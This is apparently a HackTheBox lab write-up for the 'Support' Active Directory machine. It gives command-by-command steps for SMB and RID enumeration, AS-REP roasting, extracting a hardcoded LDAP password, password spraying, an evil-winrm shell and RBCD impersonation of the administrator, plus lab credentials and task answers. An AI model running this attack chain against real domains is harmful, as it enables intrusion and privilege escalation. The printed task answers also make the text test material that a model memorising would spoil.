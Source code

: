 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

check for passwords on user description
it is important because some of the admins dont realize that other users can see user description and sometimes they put the user password there
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users`

shows nothing
![[Pasted image 20250506185438.png]]


**bloodhound**
`nxc smb rhost -u 'ldap' -p pass.txt --bloudhound -c all --dns-server rhost`
OR
`bloodhound-python -c all -u ldap -p pass.txt -d support.htb -ns rhost`

**LDAP**
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

it's messy. you can output it to txt file and grep
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch.txt`

something's interesting in one of it's user bearing `info` tag
`cat ldapsearch.txt | grep info`
![[Pasted image 20250506190914.png]]

**verify credential 2**
`nxc smb rhost -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success`
the account `support` uses that password

**dump shares with support user**
`nxc smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful' --shares    `

**connect and spawn shell**
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`



---
**privilege escalation**
you can  check the bloodhound data and you can see that user `support` is in the group `shared support account` and that group has `genericall` to the `Domain Controller`

![[Pasted image 20250506195053.png]]


**impacket**
since the user has GenericAll enabled, we can add computer to the DC
add computer
`impacket-addcomputer -method SAMR -computer-name 'YAWA' -computer-pass 'YAWA KA' -dc-host 'dc.support.htb' 'support.htb/support:Ironside47pleasure40Watchful'`

`impacket-rbcd -delegate-from 'YAWA$' -delegate-to 'DC$' -action 'write' support.htb/support:Ironside47pleasure40Watchful'   `

`impacket-getST -spn 'cifs/YAWA.support.htb' -impersonate 'administrator' 'support.htb/YAWA$:YAWA KA'` 



---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?
